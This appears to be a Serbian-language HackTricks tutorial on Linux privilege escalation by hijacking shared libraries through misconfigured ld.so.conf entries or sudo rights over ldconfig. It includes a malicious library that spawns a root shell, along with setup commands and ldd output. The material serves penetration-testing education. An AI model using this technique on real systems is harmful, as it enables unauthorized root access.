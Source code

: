 # ld.so privesc exploit example

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Priprema okruženja

U sledećem odeljku možete pronaći kod datoteka koje ćemo koristiti za pripremu okruženja

```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```

```c
#include <stdio.h>

void vuln_func();
```

```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```

{% tabs %}
{% tab title="Bash" %}
1. **Napravite** te datoteke na vašem računaru u istom folderu
2. **Kompajlirajte** biblioteku: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. **Kopirajte** `libcustom.so` u `/usr/lib`: `sudo cp libcustom.so /usr/lib` (root privilegije)
4. **Kompajlirajte** izvršnu datoteku: `gcc sharedvuln.c -o sharedvuln -lcustom`

#### Proverite okruženje

Proverite da li se _libcustom.so_ **učitava** iz _/usr/lib_ i da li možete **izvršiti** binarnu datoteku.
{% endtab %}
{% endtabs %}

```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```

## Eksploatacija

U ovom scenariju pretpostavljamo da je **neko kreirao ranjiv unos** unutar datoteke u _/etc/ld.so.conf/_:

```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```

Ranjiva mapa je _/home/ubuntu/lib_ (gde imamo pristup za pisanje).\
**Preuzmite i kompajlirajte** sledeći kod unutar tog puta:

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```

Sada kada smo **kreirali zlonamernu libcustom biblioteku unutar pogrešno konfigurisane** putanje, moramo sačekati **ponovno pokretanje** ili da korisnik sa privilegijama root-a izvrši **`ldconfig`** (_u slučaju da možete izvršiti ovu binarnu datoteku kao **sudo** ili ima **suid bit**, moći ćete je izvršiti sami_).

Kada se to dogodi, **ponovo proverite** odakle se `sharevuln` izvršna datoteka učitava iz biblioteke `libcustom.so`:

```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```

Kao što možete videti, **učitava se iz `/home/ubuntu/lib`** i ako ga bilo koji korisnik izvrši, izvršiće se shell:

```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```

{% hint style="info" %}
Napomena da u ovom primeru nismo povećali privilegije, ali modifikovanjem izvršenih komandi i **čekanjem da korisnik sa privilegijama izvrši ranjivu binarnu datoteku** možemo povećati privilegije.
{% endhint %}

### Ostale loše konfiguracije - Ista ranjivost

U prethodnom primeru smo lažirali lošu konfiguraciju gde je administrator **postavio folder bez privilegija unutar konfiguracione datoteke unutar `/etc/ld.so.conf.d/`**.\
Ali postoje i druge loše konfiguracije koje mogu izazvati istu ranjivost, ako imate **dozvole za pisanje** u nekoj **konfiguracionoj datoteci** unutar `/etc/ld.so.conf.d`, u folderu `/etc/ld.so.conf.d` ili u datoteci `/etc/ld.so.conf`, možete konfigurisati istu ranjivost i iskoristiti je.

## Eksploatacija 2

**Pretpostavimo da imate sudo privilegije nad `ldconfig`**.\
Možete navesti `ldconfig` **odakle da učita konfiguracione datoteke**, tako da možemo iskoristiti to da `ldconfig` učita proizvoljne foldere.\
Dakle, kreirajmo potrebne datoteke i foldere da bismo učitali "/tmp":

```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```

Sada, kao što je naznačeno u **prethodnom eksploitu**, **kreirajte zlonamernu biblioteku unutar `/tmp`**.\
I na kraju, učitajte putanju i proverite odakle se binarna datoteka učitava biblioteka:

```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```

**Kao što možete videti, imajući sudo privilegije nad `ldconfig`-om, možete iskoristiti istu ranjivost.**

{% hint style="info" %}
**Nisam pronašao** pouzdan način za iskorišćavanje ove ranjivosti ako je `ldconfig` konfigurisan sa **suid bitom**. Pojavljuje se sledeća greška: `/sbin/ldconfig.real: Can't create temporary cache file /etc/ld.so.cache~: Permission denied`
{% endhint %}

## Reference

* [https://www.boiteaklou.fr/Abusing-Shared-Libraries.html](https://www.boiteaklou.fr/Abusing-Shared-Libraries.html)
* [https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
* Dab mašina na HTB-u

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
